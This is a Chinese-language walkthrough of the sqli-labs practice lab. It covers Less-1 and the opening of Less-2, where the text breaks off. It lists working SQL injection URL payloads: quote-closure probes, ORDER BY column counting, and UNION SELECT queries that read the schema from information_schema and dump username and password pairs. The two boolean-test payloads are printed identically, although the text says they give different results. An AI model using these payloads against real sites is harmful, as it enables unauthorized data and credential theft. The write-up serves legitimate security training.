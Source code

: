 # sqli-labs

## Less-1

##### 类型

字符型回显注入`'`

##### 输入点

- 根据添加`'`页面的回显，可以判断出`'`是闭合

![image-20201022190820538](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210419100224.png)

![image-20201022190837113](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210419100225.png)

##### 输出点

- `payload:?id=1' and 1=1--+`

![image-20201022191307023](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210419100226.png)

- `payload:?id=1' and 1=1--+`

  ![image-20201022191415249](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210419100227.png)

  根据二者的回显不同，来判断出输出点

##### 获取数据方式

- 通过union联合查询注入

##### 注入步骤

- 判断列数`payload:?id=1' order by 3--+` 4的时候页面回显报错，所以判断出列数为3列
- 联合查询，判断各列输出的位置`payload:?id=-1' union select 1,2,3--+`
- 获取数据库`payload:?id=-1' union select 1,database(),3--+`
- 爆数据表`payload:?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+`
- 爆users表的数据字段`payload：?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+`
- 在爆出的字段中里面看到了password和username，于是爆数据`?id=-1' union select 1,group_concat(username,'~',password),3 from users--+`username和password中间使用~来分隔

## Less-2

##### 注入类型

数字型注入

##### 输入点/输出点

- 输入`payload:?id=1' and 1=2--+`页面回显报错
